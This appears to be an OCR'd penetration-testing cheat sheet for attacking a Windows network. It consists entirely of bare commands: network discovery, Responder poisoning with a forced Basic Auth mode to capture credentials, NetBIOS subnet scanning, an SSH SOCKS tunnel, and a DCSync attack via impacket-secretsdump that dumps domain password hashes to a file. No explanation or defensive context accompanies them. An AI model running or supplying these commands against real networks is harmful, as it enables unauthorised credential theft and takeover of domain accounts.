 # Network Information

## Passive

arp -a

ifconfig / ipconfig

tcpdump -i eth0

netdiscover

## Responder

### Analyze Mode
responder -I eth0 -A

responder -I eth0 -wFP

### Force Basic Auth
responder -I eth0 -wbFP

## Scanning

nbtscan 192.168.1.1/24

nbtscan-unixwiz 192.168.1.1/24

# SSH Tunneling

### Socks proxy
ssh -D 8080 root@127.0.0.1

## DCSYNC

impacket-secretsdump DOMAIN/user:password@IP -history -outputfile output
